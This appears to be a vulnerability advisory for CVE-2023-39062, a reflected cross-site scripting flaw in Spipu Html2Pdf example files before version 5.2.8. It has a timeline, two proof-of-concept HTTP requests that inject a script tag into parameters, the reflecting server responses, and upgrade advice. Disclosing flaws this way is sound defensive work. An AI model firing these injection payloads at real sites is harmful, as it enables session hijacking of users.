 # CVE-2023-39062
Spipu Html2Pdf < 5.2.8 - XSS vulnerabilities in example files. 

## Timeline
- Vulnerability reported to vendor: 18.07.2023
- New fixed 5.2.8 version released: 18.07.2023
- Public disclosure: 23.08.2023

## Description

Cross-Site-Scripting (XSS) vulnerability in Spipu Html2Pdf example files. This vulnerability allows an attacker to execute untrusted JavaScript code in the context of the currently logged-in user.

The vulnerability exists in any parameter that is passed to the `example9.php` and `forms.php` example files.

Example request to `forms.php` script:
```
GET /html2pdf/examples/res/forms.php?test=abc"><script>alert(document.domain)</script> HTTP/1.1
Host: example.afine.com
Cookie: PHPSESSID=oiqo2oopiqt88teqgfb0a23vk0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```
Server response:
```
HTTP/1.1 200 OK
Server: Apache
Content-Length: 2215
Connection: close
Content-Type: text/html; charset=UTF-8

[...]

<page footer="form">
    <h1>Test de formulaire</h1><br>
    <br>
    <form action="http://example.afine.com:443/html2pdf/examples/res/forms.php?test=abc"><script>alert(document.domain)</script>">
        <input type="hidden" name="test" value="1">

[...]
```

Example request to `example9.php` script:
```
GET /html2pdf/examples/exemple09.php?test=/"><script>alert(document.domain)</script>abc/?nom=1 HTTP/1.1
Host: example.afine.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```

Server response:
```
HTTP/1.1 200 OK
Date: Sat, 08 Jul 2023 18:32:51 GMT
Server: Apache
X-Powered-By: PHP/7.4.8
Content-Length: 795
Connection: close
Content-Type: text/html; charset=UTF-8

[...]

<body>
<br>
Ceci est un exemple de génération de PDF via un bouton :)<br>
<br>
<img src="http://example.afine.com/html2pdf/examples/exemple09.php?test=/"><script>alert(document.domain)</script>abc/res/exemple09.png.php?px=5&amp;py=20" alt="image_php" ><br>
<br>
<br>
        <form method="get" action="">

[...]
```

This issue was caused by a lack of sanitization of the provided request parameters. This problem has been fixed in Spipu Html2Pdf version 5.2.8.

## Affected versions
< 5.2.8 

## Advisory
Update Spipu Html2Pdf to 5.2.8 or newer.

### References
* https://github.com/spipu/html2pdf/blob/92afd81823d62ad95eb9d034858311bb63aeb4ac/CHANGELOG.md
* https://nvd.nist.gov/vuln/detail/CVE-2023-39062
